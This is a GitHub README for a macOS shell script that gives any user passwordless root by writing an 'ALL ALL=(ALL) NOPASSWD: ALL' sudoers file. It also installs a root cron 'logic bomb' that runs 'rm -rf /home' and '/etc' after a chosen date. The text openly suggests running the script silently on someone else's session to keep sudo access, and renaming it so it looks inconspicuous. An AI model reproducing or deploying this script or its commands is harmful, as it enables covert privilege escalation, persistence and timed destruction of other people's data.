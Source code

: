 # `startup.sh`
## A MacOS Shell Script

Note: sudo privileges are required. For educational purposes only. Do not use maliciously.

## Requirements
You must have some prerequisites before installing/running this script:
- A MacOS machine
- Access to sudo
- git/curl
- cron (installed by default)

## Installation
Clone this repository, preferably, but not necessarily in the `/opt` directory:
```sh
# git clone https://github.com/eccys/startup.sh
# cd startup.sh
```

If `git` is not available, download the raw script with [curl](https://curl.se/):
```sh
# curl -O https://raw.githubusercontent.com/Eccys/startup.sh/main/startup.sh
```

Make it executable:
```sh
sudo chmod +x startup.sh
```
Run it:
```sh
./startup.sh
```

## Usage

Upon running and entering your sudo password, one is greeted with some information and options, which are self explanatory:
```sh
[root@hostname /opt]# ./startup.sh

List of super users: root
Passwordless sudo enabled: No
isti'la is disabled

Options:
1 = Toggle someone sudo
2 = Toggle sudo password requirement
3 = Enable/Disable isti'la

Select an option or press any other key to quit: 
```

If isti'la is enabled, the isti'la date is shown.

### Toggle someone sudo
On selecting this option, it will prompt for a user's username. The user is made into an administrator. This is safer than __Passwordless sudo__.

### Passwordless sudo
This writes to a file, `/etc/sudoers.d/nopasswd_for_all`, which contains the line `ALL ALL=(ALL) NOPASSWD: ALL`. It allows for anyone, even non-administrators, to use `sudo` and execute programs and/or commands as root. 

This works very well, as by default, the `/etc/sudoers` extends `/etc/suoders.d/`. It is very dangerous, and should never be left on, unless of course.. it is the desired outcome ;)

### Isti'la

Istila is a turkish word. This option is different from others, as it is coined solely for destruction.

#### What isti'la does
When enabling isti'la, it will prompt for a date. in the format `YYYYMMDDHH`. (e.g., `2024120112` for December 1st, 2024, 12PM.)

If enabled, isti'la writes the date to `/etc/isti'la_enabled`, and establishes a cron task in the root user's crontab, running every minute checking if the current date is greater than or equal to the isti'la date.

If it is, the commands specified in the script are executed:

```sh
# Function to execute isti'la if conditions are met
execute_istila() {
    if [ -f /etc/istila_enabled ]; then
        CURRENT_DATE=$(date +%Y%m%d%H)  # Convert current date to an integer format
        ISTILA_DATE=$(cat /etc/istila_enabled)

        if [ "$CURRENT_DATE" -ge "$ISTILA_DATE" ]; then
            if [ "$AUTO_MODE" != "true" ]; then
                echo "Executing isti'la..."
            fi
            # Uncomment the lines below to enable isti'la actions
            echo Successfully executed cron job and istila operation | sudo tee -a /opt/test >/dev/null
            # sudo rm -rf /home
            # sudo rm -rf /etc
        else
            if [ "$AUTO_MODE" != "true" ]; then
                echo "isti'la date has not yet arrived."
            fi
        fi
    fi
}
```

It is very useful for executing certain actions after a specified "doomsday" has passed.

> [!IMPORTANT]
> Commands such as `sudo rm -rf --no-preserve-root` are futile on MacOS environments with [System Integrity Protection](https://support.apple.com/en-us/102149) enabled. Likewise, any operation which seeks to modify files in `/bin`, `/sbin`, `/System`, `/var`, or `/usr`.

## Auto mode

The script supports the `-auto` flag. Execute:
```sh
./startup.sh -auto
```
Upon running the script in auto mode, __Passwordless sudo__ is automatically enabled, and that's it. 

Very useful for scenarios where someone types in their sudo password and their cooldown has not yet expired, and one wishes to retain sudo access silently. One may fork this repository and rename it to something inconspicuous, or use it as part of their own project. Running it in auto mode is inherently inconspicuous itself, as only a single word is printed: `Done.`.

### Isti'la with auto mode

The auto flag supports enabling isti'la automatically, via an argument. For example:
```sh
./startup.sh -auto 2024120112
```
will enable __Passwordless sudo__ as well as isti'la with the date `2024120112` (December 1st, 2024, 12PM). If all processes are executed successfully, one line is printed: `Done. isti'la date: <date>. Cron job is successful.`.

It is also very inconspicuous. Passwordless sudo is enabled regardless, as it is required for the cron job to be able to execute commands prefixed with `sudo`. However, this is not true, as it writes the cron job to the root user's crontab.

Pull requests and issues regarding extending functionality or correcting unexpected behavior are welcome.
